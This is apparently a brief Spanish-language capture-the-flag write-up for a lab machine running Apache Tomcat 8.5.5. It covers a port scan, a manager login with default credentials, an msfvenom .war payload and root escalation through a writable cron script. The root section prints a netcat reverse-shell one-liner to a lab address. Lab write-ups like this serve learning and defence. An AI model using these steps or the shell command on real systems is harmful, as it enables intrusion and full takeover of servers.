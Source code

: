 
# SCAN
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
8080/tcp open  http    Apache Tomcat 8.5.5
```
En el puerto 8080 hay un servidor ***apache tomcat***. Se trata de un servidor que utiliza como lenguaje de programacion java. En concreto utiliza la clase 
servlet que lo que hace es implementar una especie de applets que se ejecutan en el servidor en lugar de en el navegador y es la respuesta de java a otros 
lenguajes del servidor como php o node.js

# EXPLOTACION
Cuando entramos en la pagina se nos muestra por defecto la pagina por defecto del servidor tomcat que tiene un boton "manager app". Si apretamos el boton 
nos sale un formulario de autenticacion. ¿Que metemos aqui?. Pues parece ser que por defecto los servidores tomcat se configuran para autentificarse
con las credenciales por defecto (vaya bobada!!!) que son tomcat:s3cret.
Asi lo hago y entro en la pagina del manager. Aqui hay un boton que nos permite subir archivos .war (son como jar pero para utilizarlos en la web). Puedo 
construir un payload con msfvenom con la extension .war (lo hago con rs-gen). Subo el archivo y lo ejecuto (deploy) y tengo un shell con el usuario tomcat

# USER.TXT
Esta en el home del usuario jack y tenemos permiso de lectura (otra bobada)

# ROOT.TXT
Hay una tarea programada en /etc/crontab que ejecuta root que consiste en un script id.sh. Este script se puede reescribir. Lo rescribo con un 
payload:
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.11.62.57 4455 >/tmp/f
y obtengo un reversed shell con root
